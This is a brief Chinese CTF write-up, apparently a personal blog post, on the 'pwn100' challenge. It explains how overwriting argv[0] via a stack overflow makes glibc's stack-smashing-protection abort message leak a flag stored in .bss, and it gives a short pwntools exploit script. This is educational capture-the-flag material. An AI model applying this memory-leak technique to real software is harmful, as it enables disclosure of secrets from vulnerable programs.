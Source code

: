 ```yaml
---
title: pwn100 ssp 
date: 2017-04-08 19:34:10
tags:
- ssp
- pwn
- ctf
---
```

ssp–利用栈溢出保护来泄露内存这payload贼短。。题目链接：sspStack-smashing Protection (SSP，又名 ProPolice），是在函数的栈底插入一个随机数，这个随机数在函数调用结束后会被检测，如果与预设的不同，就会直接退出程序并打印如下的错误提示:    *** stack smashing detected ***: ./pwn100 terminated
<!-- more -->
## ssp–利用栈溢出保护来泄露内存
### 这payload贼短。。
Stack-smashing Protection (SSP，又名 ProPolice），是在函数的栈底插入一个随机数，这个随机数在函数调用结束后会被检测，如果与预设的不同，就会直接退出程序并打印如下的错误提示:
~~~
    *** stack smashing detected ***: ./pwn100 terminated
    Aborted (core dumped)
~~~

其中，./pwn100 是main函数的第一个参数，而这个值在这一题中是可以被覆盖的，而正好这题的flag是被读入了内存，存在一个全局变量里，所以我们可以把main函数的第一个参数覆盖为存有flag的全局变量在.bss段的地址，在打印错误信息时泄露出来：
~~~
    from pwn import *
    bss = 0x0600DC0
    io = process("./pwn100")

    payload = ""
    payload += p64(bss) * 0x40
    io.send(payload)

    io.interactive()
~~~

可以动态调试这个payload，跟进报错的函数 
~~~
___stack_chk_fail
~~~

来看参数如何传递并打印，据说CSAPP这本书的第8章有讲main函数参数在栈上的布局，我去看看，以后补发。
